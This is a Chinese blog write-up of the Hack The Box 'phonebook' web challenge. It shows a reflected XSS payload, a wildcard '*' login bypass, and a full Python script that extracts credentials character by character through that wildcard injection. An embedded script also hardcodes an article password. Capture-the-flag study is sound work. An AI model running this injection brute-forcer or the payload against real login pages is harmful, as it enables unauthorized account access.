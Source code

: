 ```yaml
---
title: '[HTB]phonebook | writeup'
date: 2021-12-15 17:00:03
tags: [HTB,web,刷题,靶场]
published: true
hideInList: false
feature: 
isTop: false
---
```


输入错误的用户名和密码,发现提示权限失败的message是通过url传输的,构造payload引起alert的弹窗

payload : [`http://178.62.5.61:31279/login?message=<img src=1 onerror=alert(123)>`](http://178.62.5.61:31279/login?message=%3Cimg%20src=1%20onerror=alert(123)%3E)

但是还是需要登陆的,在登陆页面输入wildcards的'*'(用户名和密码均是).因为没有前面的过滤,直接把*传递到后台,所以就能登陆进去了.

进行code review.发现请求了一个/search 的api,如果成功,就显示search后的结果(以table的方式)

<!-- more -->
<script language = JavaScript> function password() {

    var testV = 1;

    var pass1 = prompt('please input the password','');

    var passwordforthisarticle = "dhlove";

    var inputtimemax = 5;

    while (testV < inputtimemax) {

    if (!pass1)

    history.go(-1);

    if (pass1 == passwordforthisarticle) {

    break;

    }

    testV+=1;

    var pass1 =

    prompt('Password error!');

    }

    if (pass1!= passwordforthisarticle & testV == inputtimemax)  

    history.go(-1);

    return " ";

    }

    document.write(password());

</script>

发现关键还是在登陆位置,需要写脚本去遍历可能的用户名和用户名密码.我的脚本如下(最后完整版,包括密码的遍历):

```python
import requests
from bs4 import BeautifulSoup

lab_address = 'http://{your-lab-id}/login'
alphabet = ['A', 'B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z', 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z']
all_list = alphabet + ['{','}','1','2','3','4','5','6','7','8','9','0','-','_']

def login(username,password='',flag=0):
    """login page"""
    name = username
    pwd = password
    for _ in all_list:
        if flag == 1:
            pwd = password + _
        else:
            name = username + _
        response = requests.post(lab_address,data={'username':'{}*'.format(name),'password':'{}*'.format(pwd)})
        if('No search results.' in response.text):
            # print('\t return:{}'.format(_))
            return _
        
    return -1

def main():
    password = ""
    username = ""
    ifbreak = False
    flag = 0
    while(ifbreak is not True): #Test username
        res = login(username,password=password,flag=flag)
        # print('\tflag:{} res:{}'.format(flag,res))
        if res != -1 and flag == 0:
            username += res
        elif res == -1 and flag!=1:
            flag = 1
        elif res != -1 and flag == 1:
            password += res
        else:
            ifbreak = True
        print('\r[*]','Now auth is "{}:{}"'.format(username,password), end='', flush=True)

    

main()
```